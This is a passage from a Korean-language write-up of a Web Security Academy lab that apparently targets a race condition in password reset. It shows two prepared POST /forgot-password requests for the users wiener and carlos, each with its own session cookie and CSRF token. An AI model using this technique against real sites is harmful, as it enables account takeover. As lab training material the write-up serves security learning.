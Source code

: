 ## 풀이 
1. 서로 다른 세션 쿠키 값과 CSRF토큰 값을 가지는 두 개의 요청을 준비한다. 

요청1: wiener유저의 패스워드 재설정 요청

```http
POST /forgot-password HTTP/2
Host: 0abf003704cf19a783b374b8000f004a.web-security-academy.net
Cookie: phpsessionid=V0cIpM0AVtHZgGHIQpR8Qbej7xpnKC8Y
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abf003704cf19a783b374b8000f004a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


csrf=FI3cEVMm92CmMKXG9x29pqxeCxpb8tMS&username=wiener
```

요청2: carlos 유저의 패스워드 재설정 요청

```http
POST /forgot-password HTTP/2
Host: 0abf003704cf19a783b374b8000f004a.web-security-academy.net
Cookie: phpsessionid=E2eCnKntPBu7ixgyQujdNSp8xD1Mx3wA
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abf003704cf19a783b374b8000f004a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


csrf=Xf9fIPgkvh8NB5gRZYktoxUsLosQ4QDb&username=carlos
```
